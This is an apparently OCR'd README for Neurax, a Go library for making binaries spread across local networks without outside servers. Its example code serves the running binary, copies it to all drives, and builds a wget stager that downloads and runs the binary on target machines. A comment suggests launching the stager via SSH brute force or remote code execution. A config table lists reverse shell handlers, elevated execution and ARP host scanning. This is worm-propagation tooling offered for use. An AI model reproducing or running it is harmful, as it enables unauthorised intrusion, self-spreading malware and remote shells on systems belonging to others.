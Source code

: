 ## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.



### Example code

```go
package main
import . "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  N.Port = 5555
  N.Stager = "wget"

  //Start a server that exposes the current binary in the background
  go NeuraxServer()
 
  //Copy current binary to all logical drives
  NeuraxDisks()

  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := NeuraxStager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

<span style="color:#b45e02">Name</span> | <span style="color:#5f1e2d">Description</span> | <span style="color:#aa5502">Default value</span>
--- | --- | ---
N.Stager           | Name of the command stager to use | `random, platform-compatible`
N.StagerSudo       | If true, Linux cmd stagers are executed with elevated privilleges | `false`
N.StagerRetry      | Number of times to re-execute the command stager | `0`
N.Port             | Port to serve on | `6741`
N.Platform         | Platform to target | `detected automatically`
N.Path             | The path under which binary is saved on the host | `.`
N.FileName        | Name under which downloaded binary should be served and then saved | `random`
N.Base64           | Encode the transferred binary in base64 | `false`
N.CommPort        | Port that is used by binaries to communicate with each other | `7777`
N.CommProto       | Protocol for communication between nodes | `"udp"`
N.ReverseListener | Contains `"<host>:<port>"` of remote reverse shell handler | `not specified`
N.ReverseProto    | Protocol to use for reverse connection | `"udp"`
N.ScanRequiredPort    | NeuraxScan() treats host as active only when it has a specific port opened| `none`
N.ScanPassive     | NeuraxScan() detects hosts using passive ARP traffic monitoring | `false`
N.ScanPassiveTimeout     | NeuraxScan() monitors ARP layer this amount of seconds | `50 seconds`
N.ScanPassiveIface     | Interface to use when scanning passively| `default`
N.ScanActiveTimeout     | NeuraxScan() sets this value as timeout for scanned port in each thread | `2 seconds`
N.ScanPassiveAll         | NeuraxScan() captures packets on all found devices | `false`
N.ScanPassiveNoArp | Passive scan doesn't set strict ARP capture filter | `false`
N.ScanFirst       | A slice containing IP addresses to scan first | `[]string{}`
N.ScanFirstOnly | NeuraxScan() scans only hosts specified within `.ScanFirst`| `false`